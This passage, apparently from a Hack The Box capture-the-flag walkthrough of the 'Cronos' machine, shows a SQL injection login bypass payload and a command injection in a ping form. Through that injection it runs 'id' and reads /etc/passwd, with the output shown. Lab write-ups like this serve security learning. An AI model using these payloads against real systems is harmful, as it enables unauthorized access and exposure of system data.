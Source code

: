 Add the subdomain to our hosts file:

```bash
echo "10.10.10.13 admin.cronos.htb" | sudo tee -a /etc/hosts
```

## Initial Access

### Admin Panel Discovery

Accessing `http://admin.cronos.htb/` reveals a login form:

![Login Page](/ctf/hack-the-box/machines/cronos/login.png)

### SQL Injection Authentication Bypass

Testing for SQL injection vulnerabilities using a basic payload:

**Payload:** `admin' OR '1'='1'; -- -`

This classic SQL injection payload successfully bypasses the authentication mechanism, granting access to a welcome page:

![Welcome Page](/ctf/hack-the-box/machines/cronos/welcome.png)

### Command Injection Vulnerability

This page contains a network diagnostic tool that allows users to ping or traceroute IP addresses:

![Ping Form](/ctf/hack-the-box/machines/cronos/ping.png)

Testing for command injection by appending additional commands:

**Test Payload:** `127.0.0.1;id`

**Result:**

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The application is vulnerable to command injection, executing arbitrary commands with `www-data` privileges.

### System Reconnaissance via Command Injection

Gathering system information through the command injection vulnerability:

**Payload:** `127.0.0.1;cat /etc/passwd | grep /bin/bash`

**Result:**

```bash
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
```
